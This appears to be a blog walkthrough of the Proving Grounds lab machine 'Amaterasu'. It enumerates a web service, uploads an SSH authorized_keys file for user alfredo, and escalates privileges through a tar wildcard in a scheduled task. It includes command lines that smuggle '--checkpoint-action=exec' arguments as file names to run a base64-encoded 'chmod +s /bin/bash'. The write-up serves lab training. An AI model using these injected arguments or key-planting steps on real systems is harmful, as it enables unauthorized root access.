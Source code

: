 ```yaml
---
title: Amaterasu
date: 2025-03-02
categories:
- Proving Grounds
- Linux
tags:
- Proving Grounds
- Linux
---
```


# Amaterasu 🔹
<!-- more -->

## Enumeration

![](../assets/Pasted%20image%2020250302170008.png)

Using `feroxbuster` on port `33414`, we find `/info` and `/help`:

![](../assets/Pasted%20image%2020250302170533.png)

![](../assets/Pasted%20image%2020250302170547.png)

![](../assets/Pasted%20image%2020250302170629.png)

## Initial Access

The user `alfredo` has a `.ssh` folder and there is an SSH port open, so we can try to upload an `authorized_keys` file with a public key inside.

![](../assets/Pasted%20image%2020250302190626.png)

```bash
cat id_rsa.pub > authorized_keys.txt
```

![](../assets/Pasted%20image%2020250302190722.png)

![](../assets/Pasted%20image%2020250302190748.png)

Get the flag:

![](../assets/Pasted%20image%2020250302190820.png)

## Privilege Escalation

Transfer `pspy` to the machine and we see a task executing.

![](../assets/Pasted%20image%2020250302194944.png)

![](../assets/Pasted%20image%2020250302194957.png)

We don't have permission to edit the script, but we see that `tar` is using a wildcard, so we can exploit that.

```bash
echo -n 'chmod +s /bin/bash' | base64
> Y2htb2QgK3MgL2Jpbi9iYXNo
touch -- "--checkpoint=1"
touch -- '--checkpoint-action=exec="echo Y2htb2QgK3MgL2Jpbi9iYXNo | base64 -d | bash"'
```

![](../assets/Pasted%20image%2020250302202933.png)

## Post Exploitation

![](../assets/Pasted%20image%2020250302203012.png)
